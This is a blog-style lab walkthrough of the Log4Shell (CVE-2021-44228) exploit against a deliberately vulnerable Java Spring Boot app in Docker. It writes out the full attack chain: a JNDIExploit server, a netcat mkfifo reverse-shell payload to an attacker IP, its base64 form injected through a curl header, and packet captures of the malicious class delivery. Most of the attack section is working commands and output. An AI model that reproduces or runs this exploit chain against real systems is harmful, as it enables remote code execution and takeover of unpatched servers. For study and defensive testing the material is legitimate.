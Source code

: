 ```yaml
---
title: LOG4J Exploit - Revese Shell (CVE-2021-44228)
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-12-25 11:33:00 +0200
categories: [Blogging]
tags: [CVE-2021-44228, Log4J]
math: true
mermaid: true
---
```

**Simple PoC against simple Java Springboot App** 
# Setting up DOCKER "Victim" Java App w. LOG4J

Download the vulnerable App. [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)&#x20;

Kudos for making simple app to quickly test PoC! [ https://github.com/christophetd](https://github.com/christophetd)

App is very simple, based on Java Springboot and includes exactly what we need for PoC:

* vulnerable log4j (obviously)
* endpoint that writes to LOG4J log.

I chose to run the app in a docker container, basically ran exact commands written by https://github.com/christophetd/log4shell-vulnerable-app

```
git clone https://github.com/christophetd/log4shell-vulnerable-app`
```

Go into log4shell-vulnerable-app directory and build it

```
docker build . -t vulnerable-app
```

Run it

```
sudo docker run --name vulnerable-app --network="bridge" -p 8080:8080 vulnerable-app
```

![](/assets/images/2022-05-19-12-26-58.png)

If this `Victim` Server is up and running we can go to `Attacker`s machine

# Attacker's Machine - Getting Reverse Shell

Simple PoC would just see if there is DNS Request coming bit let's go one step further.

JNDI Exploit will be used https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2 which will run HTTP+LDAP Server.

```
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```

At this step of PoC `${jndi:ldap://kali/abc}` will be parsed from LOG4J and WILL issue JNDI (Java Naming and Directory Interface) request. JNDI Exploit will inject malicious class and respond to request of `Victim`s server.

Let's start the JNDI Exploit.

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

And let's craft an malicious reverse shell payload. Since i'm runing the App in docker, there is no bash installed (or at least i didn't install it manually) - keep that in mind!

Payload:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.142 4242 >/tmp/f" | base64 | tr -d "\n" && echo
```

(Encode `+` with `%2B`)

Let's put payload into Curl and inject it into `X-Api-Version` header. (It could be any header which get's logged using Log4J on that application!)

```bash
curl http://192.168.253.204:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.253.142:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgMTkyLjE2OC4yNTMuMTQyIDQyNDIgPi90bXAvZgo}'
```

If everything has been done right, reverse shell should pop (see tmux window in bottom right)&#x20;

![](/assets/images/2022-05-19-12-27-16.png)

# Packet Analysis

As you can see, there is also no "real" LDAP involed after initial Payload has been sent (i left that part out in the screenshot below.). There's just TCP and HTTP (what's missing is DNS - i used IP for my attacker's machine, therefore no DNS)

![](/assets/images/2022-05-19-12-27-29.png)

## Java Serialized packet sent to Attacker's "LDAP" Server

You can check below, that doesn't seem like normal LDAP Request does it?

```
0....`........0....a.
......0.....c.....Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4yNTMuMTQyIDQyNDIgPi90bXAvZgo
..
.............objectClass0...0...2.16.840.1.113730.3.4.20..#...d......Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4yNTMuMTQyIDQyNDIgPi90bXAvZgo0..0..
javaClassName1...foo0...javaCodeBase1...http://192.168.253.142:8888/0$..objectClass1...javaNamingReference0"..javaFactory1...ExploitwXXEY4CzxK0....e.
......0"...B...0...2.16.840.1.113730.3.4.2
```

## Payload delivery

```
GET /ExploitwXXEY4CzxK.class HTTP/1.1
User-Agent: Java/1.8.0_181
Host: 192.168.253.142:8888
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 13 Dec 2021 08:01:48 GMT
Content-length: 1282

.......2.=...ExploitwXXEY4CzxK.....@com/sun/org/apache/xalan/internal/xsltc/runtime/AbstractTranslet......cmd...Ljava/lang/String;...<init>...()V...java/io/IOException..	.....
.......java/io/File..
..	separator.....	......./......java/lang/String......equals...(Ljava/lang/Object;)Z.....
......./bin/sh......-c........	........../C..!...[Ljava/lang/String;..#...java/lang/Runtime..%..
getRuntime...()Ljava/lang/Runtime;..'.(
.&.)...exec..(([Ljava/lang/String;)Ljava/lang/Process;..+.,
.&.-...printStackTrace../..
.
.0..	transform..r(Lcom/sun/org/apache/xalan/internal/xsltc/DOM;[Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;)V..9com/sun/org/apache/xalan/internal/xsltc/TransletException..4...(Lcom/sun/org/apache/xalan/internal/xsltc/DOM;Lcom/sun/org/apache/xml/internal/dtm/DTMAxisIterator;Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;)V...<clinit>..Srm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.142 4242 >/tmp/f
..8...Code..
StackMapTable..
Exceptions.!.........
.................:...~.......M*..................Y...SY...SY....SL.......Y.. SY.."SY....SL..*+...W...M,..1....<.D.G.
...;........'............$J..
....2.3...:...
..............<.......5...2.6...:...
..............<.......5...7.....:.............9..........
```

Now, there are many posibilities for obfuscation. Perhaps attack's used in the wild wouldn't be so easy to reverse enginner.
